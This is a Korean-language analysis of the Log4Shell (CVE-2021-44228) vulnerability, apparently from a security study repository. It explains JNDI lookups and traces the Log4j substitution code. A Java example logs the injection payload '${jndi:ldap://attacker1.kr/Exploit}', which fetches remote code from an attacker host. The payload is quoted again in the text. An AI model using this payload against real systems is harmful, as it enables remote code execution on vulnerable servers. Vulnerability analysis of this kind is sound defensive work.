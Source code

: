 [로그에 대한 기본 지식](https://github.com/sungmin4036/infomation_security/blob/main/etc/log%EB%9E%80%3F.md)
[log4j 보안 취약점 가이드](https://github.com/sungmin4036/infomation_security/blob/main/Recent_Issue/log4j%20%EB%B3%B4%EC%95%88%20%EC%B7%A8%EC%95%BD%EC%A0%90%20%EA%B0%80%EC%9D%B4%EB%93%9C.md)



### ㅁ 최초 취약점이면서 가장  파급력이 큰 Log4Shell(CVE-2021-44228) 취약점

- 취약점 개요

Log4Shell 취약점은 Log4j에서 구성, 로그 메시지 및 매개 변수에 사용되는 JNDI에서 발생하는 취약점으로, 공격자는 Lookup 기능을 악용하여 LDAP 서버에 로드된 임의의 코드를 실행할 수 있다.

```
- JNDI(Java Naming and Directory Interface) : Java 응용 프로그램이 필요한 자원 (데이터베이스 등) 및 실행에 필요한 다른 프로그램 정보를 찾을 수 있는 기능 제공

- Lookup : JNDI를 통해 찾은 자원을 사용하는 기능
```

![image](https://user-images.githubusercontent.com/62640332/160654704-392a9c1e-4f47-4409-a695-273c052290ce.png)

- 취약점 상세분석

```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);
    public static void main(String[] args) {
        //The default trusturlcodebase of the higher version JDK is false
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");
        logger.error("${jndi:ldap://attacker1.kr/Exploit}"); <<<<<<<<<<<< 이부분 문제
 }
}
```

Log4j에서는 로깅을 위해 org.apache.logging.log4j.core.Logger.log 메소드를 사용하며 

privateConfig.loggerConfig.getReliabilityStrategy()를 통해 설정 파일을 참고한다.

![image](https://user-images.githubusercontent.com/62640332/160654927-1b701a99-600a-483f-84c5-2c96a2f45c87.png)

이후 noLookups 옵션을 체크한 뒤 workingBuilder 변수에 ‘${’ 문자열을 찾아 

해당 문자열이 존재할 경우 config.getStrSubstitutor().replace() 메소드를 호출한다. 

config.getStrSubstitutor().replace() 메소드는 value 값을 인자 값으로 하여 StrSubstitutor.substitue() 메소드를 호출한다.

![image](https://user-images.githubusercontent.com/62640332/160655036-44e45215-7373-43db-b41a-414bb437e0fd.png)

StrSubstitutor.substitue() 메소드는 전달된 ${jndi:ldap://attacker1.kr/ Exploit} 

문자열에서 “$”, “{”, “}”을 제외한 값을 StrSubstitutor. resolveVariable() 메소드의 
인자로 전달한다.

이 값은 다시 resolve.lookup() 메소드로 실행된다.
